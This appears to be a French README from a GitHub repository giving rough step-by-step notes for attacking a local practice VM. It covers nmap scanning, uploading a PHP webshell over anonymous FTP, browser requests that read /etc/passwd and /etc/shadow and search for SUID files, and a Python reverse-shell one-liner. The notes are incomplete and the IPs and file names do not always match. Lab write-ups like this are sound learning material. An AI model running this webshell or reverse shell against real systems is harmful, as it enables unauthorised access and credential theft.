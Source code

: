 
# télécharger
```01-Local1.ova```

# mettez ceci 
```sha1sum 01-Local1.ova``` pour vérifier le hash

# et regardez si le résultat est
```f3422f3364fd38e8183740f8f57fa951d3f6e0bf```

# installer virtualbox si ce n'est pas encore fait
```sudo apt update && sudo apt install -y virtualbox```

# assure toi d'avoir les outils nécessaires
```sudo apt update && sudo apt install -y net-tools nmap john hydra metasploit-framework```

# double clic sur ```01-Local1.ova```

# donnez 4096MB comme RAM (pour renforcer la machine virtuelle)
au lieu de de 512

# Changez l'adapter en NAT
au lieu de Bridge

# assure toi que la machine virtuelle
soit activée

# mettez ceci
nmap -sn 192.168.1.0/24

# sélectionnez l'adresse de la VM et mettez ceci
nmap -A ```adresse```

# se connecter
se connecter et examiner les fichiers trouvés

# créer webshell.php et y mettre ceci:
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
```

# mettre ceci
ftp 192.168.1.26
login: anonymous
pwd: Entrée (le bouton)

# téléverser le fichier
```put nc.php```

# éxécuter ceci dans un terminal
- nc -lvnp 12000
    - -l : Active le mode "listener".
    - -v : Mode verbeux pour voir les connexions établies.
    - -n : Ignore les DNS pour accélérer la connexion.
    - -p 12000 : Spécifie le port d'écoute.

# faire passer www-data à un utilisateur privilégié

# mettre ceci dans le navigateur:
- http://192.168.1.8/files/simple_shell.php?cmd=cat%20/etc/crontab
- http://192.168.1.8/files/simple_shell.php?cmd=find%20/%20-perm%20-u=s%20-type%20f%202%3E/dev/null
- http://192.168.1.8/files/webshell.php?cmd=cat%20/etc/passwd
- http://192.168.1.26/files/webshell.php?cmd=ls%20-l%20/etc/shadow
- http://192.168.1.26/files/webshell.php?cmd=cat%20/var/backups/apt.extended_states.1.gz

# username
shrek

# password
not yet

# nmap -sV -sC -O 192.168.1.8
- -sV : Détecte les versions des services en cours d'exécution.
- -sC : Utilise des scripts Nmap pour détecter des vulnérabilités connues.
- -O : Détermine le système d’exploitation (si possible).

# ceci sur la machine physique
nc -lvnp 4444

# ceci sur la machine virtuelle
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.1.26",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"]);'

# sur le shell
ls -la /etc/passwd /etc/shadow
ls -la /etc/sudoers


# developer
- Prénom NOM: Mouhamed DIOUF
- email: seydiahmedelcheikh@gmail.com

-----------------------------------------------------------------------------------------------

# link for kali
- https://www.youtube.com/watch?v=trPm2DB8678
- https://www.youtube.com/watch?v=B7wCf0JiOcM&list=PLZEN0mW2CQl38fx0wtv53VEmn5CKJIrLA